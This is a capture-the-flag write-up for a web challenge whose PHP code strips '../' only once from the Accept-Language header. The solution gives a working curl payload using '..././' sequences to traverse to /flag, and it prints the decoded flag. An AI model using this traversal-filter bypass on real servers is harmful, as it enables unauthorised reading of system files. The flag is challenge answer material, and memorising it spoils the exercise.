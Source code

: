 
# Challenge Flags

## Challenge

Fun with flags: http://35.207.169.47

Flag is at /flag

Difficulty estimate: Easy


## Solution

If we navigate to the given url the following PHP code is presented to us.

```
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

We figured out it must be in / of the webserver.

We can put a path in the Accept-Language header of the GET request, but '../' is escaped. Therefore a bit of creativity is needed: 

```
# curl -H 'Accept-Language: ..././..././..././..././..././..././flag' http://35.207.169.47/
```

The HTML in the response contains an image with our flag:

```
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

Since the data is encoded, we need to decode it:
```
# echo 'MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=' | base64 --decode
35c3_this_flag_is_the_be5t_fl4g
```

